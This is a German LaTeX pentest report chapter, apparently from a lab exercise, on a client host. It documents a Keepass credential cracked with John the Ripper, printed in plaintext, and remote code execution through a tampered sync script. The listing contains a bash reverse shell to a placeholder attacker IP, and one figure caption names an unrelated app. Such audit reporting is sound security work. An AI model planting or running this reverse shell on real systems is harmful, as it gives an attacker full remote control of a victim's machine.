\chapter{Butterblume's Client}
Ein Client-System mit der IP-Adresse \url{10.0.72.100}.
\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=low, i=low, a=low}
\cvssdescription{Über eine unsichere Keypass-Datei konnten die Anmeldedaten des Nutzers bei Tuk-Nextcloud ermittelt werden.}

\section{\makecvssbadge Sensitive Data Exposure}
\cvssaddtosummary{Butterblume's Client: Sensitive Data Exposure}

\subsection*{Proof of concept} 
Die Anmeldedaten für den Account \textit{butterbluem} in der Webanwendung Nextcloud konnten durch die Kompromittierung der Nextcloud-Anwendung erlangt werden.Das Vorgehen dazu ist in \autoref{sec:nextcloud} beschrieben. In dieser Webanwendung wurden mehrere Versionen einer Keypass-Datei entdeckt, die mit dem Tool John the Ripper geknackt wurden. In der genannten Keypass-Datei befanden sich unter anderem die Zugangsdaten \texttt{butterbluem : ielaequei6Aexaet}.

\subsection*{Empfehlungen}
\begin{itemize}
    \item Das Passwort für den Nutzer \textit{butterbluem} sollte umgehend geändert werden und durch eine neues und sicheres Passwort ersetzt werden (siehe \cite{bsi_passwords}).
    \item Multi-Faktor-Authentifizierung (MFA): Durch Verwendung von MFA Methoden wird es Angreiferen deutlich erschwert Zugang zu einem passwortgeschützten Account zu erlangen (siehe \cite{owaspAuthenticationOWASP}).
\end{itemize}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Über ein Bash-Skript, das zur Synchronisation des Home-Verzeichnisses mit einer Nextcloud verwendet wird, kann eine Reverse Shell initiiert werden.}

\section{\makecvssbadge Remote Code Execution (RCE)}
\cvssaddtosummary{Butterblume's Client: Remote Code Execution (RCE)}

\subsection*{Proof of concept} 
Der Nutzer \textit{butterbluem} nutzt ein einfaches Bash-Skript, um das Home-Verzeichnis seines Rechners mit der Nextcloud zu synchronisieren. Dieses Skript ist ebenfalls in den Dateien des Nutzers auf der Nextcloud zu finden. Durch die Anpassung des Skripts kann eine Reverse Shell initiiert werden, da das Skript regelmäßig auf dem Rechner \textit{butterbluem} ausgeführt wird. Zunächst wird dazu ein Netcat-Listener auf dem System des Angreifers gestartet, wie in \autoref{listing:netcat-listener} beschrieben. Anschließend muss das Bash-Skript zur Synchronisation angepasst werden, wie in \autoref{listing:butterbluem:backup} dargestellt. Beim darauffolgenden Aufruf des Bash-Skripts wird die Revers Shell gestartet und der Angreifer erhält vollen Zugriff auf den Rechner \textit{butterbluem}. Ein Nachweis ist in \autoref{fig:08_butterbluem_proof} dargestellt. 

\begin{listing}[!ht]
\begin{minted}{bash}
#!/bin/bash


bash -c 'bash -i >& /dev/tcp/<Angreifer-IP>/9001 0>&1'

rsync -avP /mnt/backup/* /home/butterbluem/
\end{minted}
\caption{Datei backup-home.sh}
\label{listing:butterbluem:backup}
\end{listing}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/08_butterbluem_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:08_butterbluem_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}   
    \item Dateien verifizieren: Das Bash-Skript zur Synchronisation des Home-Verzeichnisses kann mit einer digitalen Signatur oder einem Hash gesichert werden. Dadurch können Änderungen am Skript erkannt und das Skript abgebrochen werden.
\end{itemize}